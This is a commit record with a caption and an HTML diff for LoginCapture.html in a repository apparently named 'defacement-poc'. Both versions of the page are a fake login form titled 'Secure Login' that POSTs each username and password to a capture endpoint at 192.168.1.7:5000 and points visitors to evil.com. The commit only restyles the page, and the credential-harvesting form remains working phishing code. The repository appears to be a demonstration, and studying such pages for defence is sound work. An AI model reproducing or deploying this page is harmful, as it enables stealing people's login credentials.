

Before and after one commit to 0xbitsnbytes/defacement-poc, a plain HTML site: page LoginCapture.html in a window 1280 px wide. Shown: the part 129-650 px from the top of the page, without its empty margins (312-967 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
LoginCapture.html

```diff
--- a/LoginCapture.html
+++ b/LoginCapture.html
@@ -3,79 +3,65 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Important Notice</title>
+    <title>Secure Login</title>
     <style>
-        body, html {
-            margin: 0;
-            padding: 0;
-            height: 100%;
+        body {
             display: flex;
             justify-content: center;
             align-items: center;
-            background-color: #f0f0f0;
+            height: 100vh;
+            margin: 0;
             font-family: Arial, sans-serif;
+            background: #f4f4f4;
         }
         .container {
             text-align: center;
-            background-color: #fff;
+            background: white;
             padding: 20px;
-            border-radius: 5px;
-            box-shadow: 0 0 10px rgba(0,0,0,0.1);
+            border-radius: 10px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
         }
-        .container h1 {
-            margin-bottom: 20px;
-        }
-        .container p {
-            font-size: 18px;
-            margin-bottom: 20px;
-        }
-        .container a {
-            display: block;
-            margin-bottom: 20px;
-            font-size: 18px;
-            color: #007BFF;
-            text-decoration: none;
-        }
-        .container a:hover {
-            text-decoration: underline;
-        }
-        .login-container form {
+        .login-form {
             display: flex;
             flex-direction: column;
-            align-items: center;
+            width: 300px;
+            margin: auto;
         }
-        .login-container input {
-            margin-bottom: 10px;
+        .login-form input {
+            margin: 10px 0;
             padding: 10px;
-            font-size: 16px;
-            width: 100%;
+            font-size: 1em;
+            border: 1px solid #ccc;
+            border-radius: 5px;
         }
-        .login-container button {
-            padding: 10px 20px;
-            font-size: 16px;
-            background-color: #007BFF;
+        .login-form button {
+            padding: 10px;
+            font-size: 1em;
+            background-color: #4CAF50;
             color: white;
             border: none;
+            border-radius: 5px;
             cursor: pointer;
-            border-radius: 5px;
         }
-        .login-container button:hover {
-            background-color: #0056b3;
+        .login-form button:hover {
+            background-color: #45a049;
+        }
+        .note {
+            font-size: 0.9em;
+            color: #555;
+            margin-bottom: 20px;
         }
     </style>
 </head>
 <body>
     <div class="container">
-        <h1> Site currently down for Maintenance</h1>
-        <p>Please visit <a href="https://evil.com">evil.com</a> for more details.</p>
-        <div class="login-container">
-            <h1>Login</h1>
-            <form action="http://192.168.1.7:5000/capture" method="POST">
-                <input type="text" name="username" placeholder="Username" required>
-                <input type="password" name="password" placeholder="Password" required>
-                <button type="submit">Login</button>
-            </form>
-        </div>
+        <h2>Please visit <a href="https://evil.com">evil.com</a> for more details.</h2>
+        <div class="note">Secure Login</div>
+        <form class="login-form" action="http://192.168.1.7:5000/capture" method="POST">
+            <input type="text" name="username" placeholder="Username" required>
+            <input type="password" name="password" placeholder="Password" required>
+            <button type="submit">Login</button>
+        </form>
     </div>
 </body>
-                          </html>
+</html>
```
